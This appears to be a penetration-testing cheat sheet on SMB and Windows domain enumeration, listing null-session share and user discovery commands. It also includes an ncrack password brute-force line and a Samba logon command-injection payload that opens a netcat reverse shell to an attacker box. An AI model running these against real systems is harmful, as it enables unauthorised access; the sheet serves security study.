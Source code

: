 # SMB | Windows Domain Enumeration

## SAMB / SMB / Windows Domain Enumeration

```
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

Also see, nbtscan cheat sheet (right hand menu).

| COMMAND                   | DESCRIPTION                                                                                                                  |
| ------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `nbtscan 192.168.1.0/24`  | Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain |
| `enum4linux -a target-ip` | Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing     |

**Fingerprint SMB Version**

```
smbclient -L //192.168.1.100 
```

**Find open SMB Shares**

```
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   
```

**Enumerate SMB Users**

```
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```

{% embed url="https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html" %}

```
nmap --script smb-protocols 10.10.10.10
​
smbclient -L //10.10.10.10
smbclient -L //10.10.10.10 -N         // No password (SMB Null session)
smbclient --no-pass -L 10.10.10.10
smbclient //10.10.10.10/share_name
​
smbmap -H 10.10.10.10
smbmap -H 10.10.10.10 -u '' -p ''
smbmap -H 10.10.10.10 -s share_name 
​
crackmapexec smb 10.10.10.10 -u '' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name
crackmapexec smb 192.168.0.115 -u '' -p '' --shares --pass-pol
​
​
enum4linux -a 10.10.10.10
​
rpcclient -U "" 10.10.10.10
    * enumdomusers 
    * enumdomgroups
    * queryuser [rid]
    * getdompwinfo
    * getusrdompwinfo [rid]
​
ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v
​
mount -t cifs "//10.1.1.1/share/" /mnt/wins
​
mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid=0
​
SMB Shell to Reverse Shell : 
​
    smbclient -U "username%password" //192.168.0.116/sharename
    smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash" 
    
Checklist :
    * Samba symlink directory traversal attack
```

Download whole smbshare with one command:\
\
`smbget -R smb://192.168.206.148/kathy`
